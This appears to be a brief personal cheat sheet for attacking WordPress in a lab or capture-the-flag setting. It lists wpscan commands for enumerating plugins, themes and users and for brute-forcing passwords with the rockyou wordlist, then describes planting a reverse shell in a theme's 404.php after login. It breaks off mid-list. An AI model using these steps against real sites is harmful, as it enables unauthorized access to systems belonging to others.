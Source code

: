 ### basic enumeration
```
wpscan --url <url> -e vp,vt,u 
```

### brute forcing password with username
```
wpscan --url http://target.ip/ -U <usernames> --passwords
/usr/share/wordlists/rockyou.txt
```

---

### post login

1) editing themes in `appearance > theme editor > <theme>`
	- usually look for 404.php
	- executing reverse shell here:
		`http://10.10.226.162/wp-content/themes/<THEME>/404.php`
2) 